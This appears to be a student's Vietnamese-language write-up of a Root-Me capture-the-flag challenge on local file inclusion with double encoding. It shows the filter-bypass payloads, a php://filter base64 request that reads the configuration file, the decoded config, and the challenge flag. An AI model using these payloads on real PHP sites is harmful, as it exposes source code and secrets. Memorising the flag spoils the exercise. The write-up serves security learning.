



# Challenge: Local File Inclusion - Double encoding
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding

- Thử thách cho chúng ta nhập một 3 trang thông tin, 3 trang này được thay đổi bỡi tham số GET request là `page`.
<p align="center"></p>

- Thử với `page=index.php` --> Attack detected.

- Có thể server đã lọc và phát hiện, ta thử dùng Double Encoding chuỗi `index.php` --> `index%252ephp`
<p align="center"></p>

- Ta thấy có thông báo lỗi, dựa vào thông báo lỗi này ta biết được server sẽ `include [page]+".inc.php"`

- Ta sử dụng php://filter để có thể xem mã nguồn của file `php://filter/convert.base64-encode/resource=index.php`
https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb

- Ta thử xem mã nguồn của trang cv (cv.inc.php) --> `php://filter/convert.base64-encode/resource=cv` để khi chèn thêm .inc.php ta sẽ được `php://filter/convert.base64-encode/resource=cv.inc.php`
--> `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`
<p align="center"></p>

- Tương tự ta xem những file khác (cv, home, contact), tuy nhiên không có username, password hay flag nào cả, tuy nhiên ở đây ta biết thêm có 1 file là "conf.inc.php", thông qua <?php include("conf.inc.php"); ?>
- Do đó ta sẽ thử với
>?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf

- Sau khi decode-base64 ta được
```
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];

```

## Kết quả flag là `Th1sIsTh3Fl4g!`
